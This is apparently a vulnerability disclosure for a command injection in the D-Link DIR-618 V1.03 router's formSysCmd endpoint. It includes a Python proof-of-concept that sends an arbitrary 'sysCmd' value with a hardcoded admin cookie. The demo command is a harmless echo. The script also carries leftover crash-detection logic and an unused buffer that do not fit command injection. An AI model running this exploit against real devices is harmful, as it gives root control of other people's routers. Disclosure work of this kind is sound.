


## D-Link DIR-618 Router Firmware Version V1.03 Contains a Command Injection Vulnerability

A critical command injection vulnerability exists in firmware version V1.03 for the D-Link DIR-618 router. The vulnerability is located in the formSysCmdfunction. This function retrieves the user-supplied "sysCmd" parameter value via websGetVarbut performs no security validation or filtering on the input. When the "sysCmd" parameter is not empty, the code uses snprintfto directly format the input into a system command string, which is then passed to the systemfunction for execution. By crafting a malicious "sysCmd" parameter value, an attacker can execute arbitrary system commands on the router with root privileges. This can lead to a complete compromise of the device, resulting in information disclosure, device tampering, or the router being used as a launch point for further network attacks.



### PoC
```python
import requests
from pwn import *
import time
import urllib.parse

def exploit(target_ip):
    auth_cookie = "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"
    
    pay = "A" * 2048
    attack_url = f"http://{target_ip}/goform/formSysCmd"
    
    payload = {
        "sysCmd": "echo helloxidp"       # 执行的命令
    }

    headers = {
        "Host": target_ip,
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "close",
        "Cookie": auth_cookie,
        "Upgrade-Insecure-Requests": "1"
    }
    
    try:
        response = requests.post(
            attack_url,
            data=payload,
            headers=headers,
            timeout=10,
            verify=False
        )
        
        print(f"Response status code: {response.status_code}")
        print(f"Response length: {len(response.text)} bytes")
        
        if response.status_code != 200:
            print(f"[+] Possible vulnerability triggered, status code: {response.status_code}")
        
    except requests.exceptions.Timeout:
        print("[+] Request timeout - possible successful crash triggered!")
    except requests.exceptions.ConnectionError:
        print("[+] Connection error - device may have crashed!")
    except Exception as e:
        print(f"[!] Request failed: {str(e)}")

if __name__ == "__main__":
    TARGET_IP = "192.168.0.1"
    exploit(TARGET_IP)
```


